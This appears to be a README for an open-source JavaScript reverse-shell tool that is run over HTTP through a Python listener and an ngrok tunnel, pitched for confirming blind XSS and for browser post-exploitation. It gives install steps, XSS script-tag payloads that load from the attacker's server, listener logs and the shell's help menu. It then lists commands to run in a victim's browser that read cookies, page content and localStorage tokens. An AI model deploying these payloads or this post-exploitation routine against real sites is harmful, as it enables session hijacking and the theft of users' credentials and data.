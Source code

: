 # Description
 A reverse shell in JavaScript using HTTP to communicate, used to confirm blind XSS vulnerabilities and a tool for browser post-exploitation.
# Setup and Use
``pip install pyngrok socketserver``

Then, run in terminal or cmd:

``python server.py``

Now, run the JavaScript XSS payload on the target (Or simply open the HTML payload in the browser).

````
  ____  _                       ____      _ ____  
 |  _ \(_)_ __ ___   ___  _ __ |  _ \    | / ___|
 | | | | | '_ ` _ \ / _ \| '_ \| | | |_  | \___ \
 | |_| | | | | | | | (_) | | | | |_| | |_| |___) |
 |____/|_|_| |_| |_|\___/|_| |_|____/ \___/|____/  v1.3

 <------------ Developed by DimonDev ------------>


[!] Execute one of these payloads on the target:

Local target:

<script src="http://localhost:6969/?command=get_script"></script>
The HTML payload: http://localhost:6969/?command=get_html

Remote target:

<script src="https://aaaabbbbcccc.ngrok-free.app/?command=get_script"></script>
The HTML payload: https://aaaabbbbcccc.ngrok-free.app

[+] Listener server started over WAN - https://aaaabbbbcccc.ngrok-free.app
[+] Listening on port 6969
````

When a the target is connected, it will spawn a reverse HTTP shell (type command help):

````
  ____  _                       ____      _ ____  
 |  _ \(_)_ __ ___   ___  _ __ |  _ \    | / ___|
 | | | | | '_ ` _ \ / _ \| '_ \| | | |_  | \___ \
 | |_| | | | | | | | (_) | | | | |_| | |_| |___) |
 |____/|_|_| |_| |_|\___/|_| |_|____/ \___/|____/  v1.3

 <------------ Developed by DimonDev ------------>


[!] Execute one of these payloads on the target:

Local target:

<script src="http://localhost:6969/?command=get_script"></script>
The HTML payload: http://localhost:6969/?command=get_html

Remote target:

<script src="https://aaaabbbbcccc.ngrok-free.app/?command=get_script"></script>
The HTML payload: https://aaaabbbbcccc.ngrok-free.app

[+] Listener server started over WAN - https://aaaabbbbcccc.ngrok-free.app
[+] Listening on port 6969

127.0.0.1 - - [03/May/2023 23:47:55] "GET /?command=get_script HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:55] "GET /shell HTTP/1.1" 200 -
127.0.0.1 - - [03/May/2023 23:47:56] code 404, message Not Found
127.0.0.1 - - [03/May/2023 23:47:56] "GET /favicon.ico HTTP/1.1" 404 -

undefined

127.0.0.1~#
127.0.0.1 - - [03/May/2023 23:47:56] "GET /shell?resp=undefined HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:56] "GET /shell HTTP/1.1" 200 -

undefined

127.0.0.1~#
127.0.0.1 - - [03/May/2023 23:47:57] "GET /shell?resp=undefined HTTP/1.1" 200 -
127.0.0.1~# 
127.0.0.1 - - [03/May/2023 23:47:58] "GET /shell HTTP/1.1" 200 -

undefined

127.0.0.1~# help

---------------------------------------------------------
Usage:
    You can either input a Javascript snippet or use
    the internal commands.

Commands:
    help - Prints this message.
    getip - Fetches the public IP of the target.
    vulnscan - Scans for possible CVEs in the target
                browser.
    info CVE-0000-0000 - Information about a CVE.
    exploit CVE-0000-0000 - (For now, it only prints
                                exploit-db url)

Useful JavaScript:
    document.documentURI
    document.location
    document.domain
    document.body.innerHTML
    document.head.innerHTML
    document.cookie
    localStorage
    localStorage.getItem("SOME_ITEM_OR_TOKEN")
    navigator.userAgent
    navigator.platform
    navigator.vibrate()
    navigator.javaEnabled()
    navigator.languages
    navigator.maxTouchPoints
    navigator.buildID

----------------- Developed by DimonDev -----------------

127.0.0.1~#
````

# Post-exploitation
You can now use the JavaScript console remotely.
Here are some interesting commands to use:
1. `document.documentURI`: This property returns the URI (Uniform Resource Identifier) of the current document.
2. `document.location`: This property returns a Location object, which contains information about the current URL of the document, including the protocol, host, port, pathname, and search parameters.
3. `document.domain`: This property returns the domain of the current document's URL. This property is often used to enable cross-origin scripting between documents served from different domains.
4. `document.body.innerHTML`: This property allows you to get or set the HTML content of the `<body>` element of the current document. When you set this property, the existing content of the `<body>` element is replaced with the new content.
5. `document.head.innerHTML`: This property allows you to get or set the HTML content of the `<head>` element of the current document. When you set this property, the existing content of the `<head>` element is replaced with the new content.
6. `document.cookie`: This property allows you to get or set the cookies associated with the current document. Cookies are small pieces of data that are stored on the client-side and are often used to persist user preferences or authentication information.
7. `localStorage`: This is an object that provides a simple key-value store for persisting data on the client-side. Unlike cookies, data stored in localStorage is not sent to the server with every request.
8. `localStorage.getItem("SOME_ITEM_OR_TOKEN")`: This method allows you to retrieve an item from localStorage based on its key. The key is a string that you provide when you store the item.
9. `navigator.platform`: This property returns a string that identifies the operating system platform that the browser is running on (e.g., "MacIntel", "Win32", "Linux x86_64", etc.).
10. `navigator.vibrate()`: This method allows you to trigger a vibration effect on the user's device. This method takes an array of integers that specifies the pattern of vibration (e.g., `[100, 200, 300]` would vibrate for 100ms, then pause for 200ms, then vibrate for 300ms).
11. `navigator.javaEnabled()`: This method returns a boolean indicating whether the browser has Java support enabled.
12. `navigator.languages`: This property returns an array of strings that represents the user's preferred languages for content.
13. `navigator.maxTouchPoints`: This property returns the maximum number of simultaneous touch points that the user's device supports.
14. `navigator.buildID`: This property returns a string that identifies the build of the browser that the user is using. This value is often used for debugging purposes.
Remember to get creative!
